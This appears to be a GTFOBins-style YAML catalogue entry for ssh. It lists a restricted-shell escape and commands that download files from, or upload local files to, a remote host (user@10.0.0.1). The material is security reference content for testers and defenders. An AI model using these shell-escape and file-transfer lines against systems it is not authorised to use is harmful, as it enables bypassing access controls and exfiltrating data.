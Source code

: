 ```yaml
---
functions:
  exec-interactive:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost /bin/bash --noprofile --norc
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@10.0.0.1
        RPATH=file_to_get
        LPATH=where_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@10.0.0.1
        RPATH=where_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
---
```

